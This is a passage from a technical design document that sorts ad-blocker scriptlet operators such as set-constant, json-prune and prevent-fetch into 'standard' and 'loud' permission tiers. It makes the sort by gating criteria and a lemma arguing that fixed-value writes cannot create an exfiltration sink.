G2 writes only fixed-enum    every value the operator writes is from the
                             browser-fixed vocabulary (false/true/null/
                             undefined/0/''/noopFunc/emptyObj/emptyArr),
                             never a rule-supplied string, URL, or
                             page-derived byte. This is what bounds the
                             TRANSITIVE effect: see the lemma below.
G3 write target unwrappable   the target is defined defensively at
                             document-start (non-configurable, non-
                             writable) BEFORE page scripts run, so the
                             page cannot install a getter/setter on it.
                             This closes the Rice case — the operator's
                             effect no longer depends on a page-defined
                             accessor because none can exist.
G4 constant-time, budgeted   fixed instruction budget, no data-dependent
                             branching an observer can time.
```

### The lemma that makes the shortlist non-empty

The transitive gadget (`cfg.telemetryEnabled = true -> page calls send(state)`) is real, but with **G2** it is an *integrity* effect, not a *confidentiality sink*:

> A fixed-enum value carries no page-derived byte and names no attacker-chosen destination. The most a combination of fixed-enum writes can do is flip the page onto a different one of *its own* code paths, sending *its own* data to *its own* endpoints. The extension learns nothing and steers data to no host it chose. That is the `I:high` page-integrity power the capability already prices in — not `page.exfiltration`.

The confidentiality sink only appears when the extension can inject an attacker-chosen **destination** (an arbitrary string/URL value — forbidden by G2) or read **page data** and move it (forbidden by G1). So G1+G2 separate the two: integrity stays (inherent, and standard tier is *visible-in-dialog*, which is the honest price of "disable ad scripts inside pages"), while the exfiltration sink that would demand loud is structurally absent. G2's vocabulary also makes the proof **closed under combination** (DeepSeek #3): no set of fixed-enum writes composes into an attacker destination, because none of them is one.

### The verdicts

```text
operator                         reads?  writes         verdict   why
-------------------------------  ------  -------------  --------  --------------------------------
set-constant (fixed-enum value)  no      fixed-enum,    STANDARD  clears G1-G4; integrity-only by
                                         defensive-def            the lemma. THE canonical case.
set-attr (static, non-network)   no      static attr    STANDARD  like set-constant for the DOM;
                                         (not href/src/           network-bearing attrs excluded
                                         action/srcset)           (they are §6 sinks, not this).
remove-attr / remove-class       no      removes fixed  STANDARD  static selector = structure match
  (static selector, static name)         attr/class               (G1 ok); no value written; cosmetic-
                                                                  adjacent, effect confined.
-------------------------------  ------  -------------  --------  --------------------------------
set-constant (string/URL value)  no      arbitrary str  --        does not exist: G2 forbids the
                                                                  value vocabulary that would make it
                                                                  a destination sink.
json-prune                       YES     transforms     LOUD      reads page JSON (G1) -> source +
                                         page object              read-timing (G4); pruning changes
                                                                  page behavior on page data.
prevent-fetch / prevent-xhr      YES     fixed-enum     LOUD      reads the request URL (G1) to decide;
                                         response                 control-dependence on page state.
no-setTimeout-if / -setInterval  YES     no-ops cb      LOUD      reads callback SOURCE text (G1) and
                                                                  regex-matches it (G4).
abort-on-property-read / -write  n/a     installs       LOUD      accessor makes the page THROW; the
                                         accessor                 page's reaction is unbounded (fails
                                                                  G3's spirit — it acts on page reads).
```

### Consequences and honest limits

- **The provable subset is narrow and write-only.** Every standard-tier operator *writes a fixed constant to an unwrappable target and reads nothing*. Every operator that **reads page data to decide what to do** — which is most of the interesting anti-adblock arsenal (`json-prune`, `prevent-fetch`, `no-setTimeout-if`, `abort-on-*`) — is **permanently loud**, because reading is a source and a timing channel that no static proof removes. This is the honest cost of the Rice bound: the useful, page-reactive operators do not become standard, ever; they become *cleanly loud*, per-site revocable, with a truthful dialog.
- **Even the standard subset is `I:high`.** It is page-integrity power; "standard" here means *named in the dialog*, not *silent*. The line it earns is "disable ad and anti-adblock scripts inside pages," and that line is true.
- **The proof is per-browser-version.** G3's defensive-define and G2's vocabulary are browser-implementation facts; each library release re-discharges the four gates for its operator set and ships the result as the machine-checkable proof of §8/O8. Adding an operator re-runs the gate; it does not grandfather in.
- **A stock uBO/uBOL list mixes both.** Real lists use `set-constant` heavily (standard-eligible) *and* `json-prune`/`prevent-fetch` (loud), so a stock ruleset's `filtering.scriptlet` grant lands **loud** under the per-ruleset rule — which is the honest outcome, and it is why Appendix C keeps `filtering.scriptlet` in the loud column. Standard tier is reachable only by a list confined to the write-only shortlist.
